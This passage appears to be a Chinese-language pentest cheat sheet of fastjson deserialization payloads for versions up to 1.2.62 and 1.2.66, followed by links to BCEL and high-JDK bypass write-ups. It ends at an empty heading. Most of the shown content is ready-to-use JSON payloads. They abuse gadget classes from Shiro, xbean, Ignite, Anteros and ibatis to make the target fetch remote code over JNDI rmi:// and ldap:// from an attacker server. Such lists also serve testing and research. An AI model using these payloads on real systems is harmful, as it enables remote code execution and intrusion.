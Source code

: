<a name="h3-7"></a>
### fastjson <= 1.2.62漏洞
```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";
```

<a name="h3-8"></a>
### fastjson <= 1.2.66漏洞
```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://x.x.x.x:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": 
{"@type":"java.util.Properties","UserTransacti
  on":"ldap://x.x.x.x:1389/Calc"}}
```

[https://mp.weixin.qq.com/s?__biz=MzI4OTQ5Njc2Mw==&mid=2247484291&idx=1&sn=9b4b226517f4c63c071a5c4a21ea0156&scene=21#wechat_redirect](https://mp.weixin.qq.com/s?__biz=MzI4OTQ5Njc2Mw==&mid=2247484291&idx=1&sn=9b4b226517f4c63c071a5c4a21ea0156&scene=21#wechat_redirect)
<a name="10OLs"></a>
### fastjson becl
[https://mp.weixin.qq.com/s/amFZ4H0mwGxVLFc33kH1OA](https://mp.weixin.qq.com/s/amFZ4H0mwGxVLFc33kH1OA)<br />[https://github.com/safe6Sec/Fastjson](https://github.com/safe6Sec/Fastjson)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1630855583479-0f6f2ab3-fa18-4d31-9059-ae696c3b46e6.png#clientId=u880f191b-9d6b-4&from=paste&height=350&id=u1c50ec63&originHeight=700&originWidth=1150&originalType=binary&ratio=1&rotation=0&showTitle=false&size=80390&status=done&style=none&taskId=u92b23311-71fc-4567-b359-8cb8f42598b&title=&width=575)
<a name="A0cuz"></a>
### 区别fastjson和jackson
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1627872329133-8e6b8e76-d794-4004-a4cc-5f8c7a8184ee.png#height=248&id=S1Iwh&originHeight=248&originWidth=766&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17117&status=done&style=none&title=&width=766)
<a name="uDIVO"></a>
### fastjson绕过高版本jdk

